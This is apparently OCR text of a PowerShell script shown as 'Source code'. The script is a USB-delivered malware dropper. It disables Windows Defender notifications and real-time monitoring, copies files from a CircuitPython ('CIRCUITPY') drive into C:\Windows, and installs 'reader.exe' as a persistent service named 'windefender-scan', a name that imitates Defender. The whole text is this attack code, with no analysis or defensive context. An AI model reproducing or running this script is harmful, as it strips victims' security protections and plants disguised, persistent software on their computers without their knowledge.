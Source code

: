 
PowerShell -ExecutionPolicy Bypass -Command "Set-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows Defender Security Center\Notifications' -Name
'DisableEnhancedNotifications' -Value 1"

Set-MpPreference -DisableRealtimeMonitoring $true

$driveLetter = Get-WmiObject Win32_LogicalDisk | Where-Object { $_.VolumeName -eq "CIRCUITPY" } | Select-Object -ExpandProperty DeviceID

if ($driveLetter) {
    $sourcePath = Join-Path $driveLetter "data"
    $destinationPath = "C:\Windows"

    if (Test-Path $sourcePath) {
        Copy-Item -Path "$sourcePath\*" -Destination $destinationPath -Recurse -Force
        Set-Location -Path $destinationPath

        $nssmPath = "nssm.exe"
        $serviceName = "windefender-scan"
        $exePath = Join-Path $destinationPath "reader.exe"

        if (Test-Path $nssmPath -and Test-Path $exePath) {
            & $nssmPath install $serviceName $exePath
            & $nssmPath start $serviceName
        } else {
            Write-Host "nssm.exe or reader.exe not found."
        }
    } else {
        Write-Host "Source folder 'data' not found on CIRCUITPY drive."
    }
} else {
    Write-Host "CIRCUITPY drive not found."
}
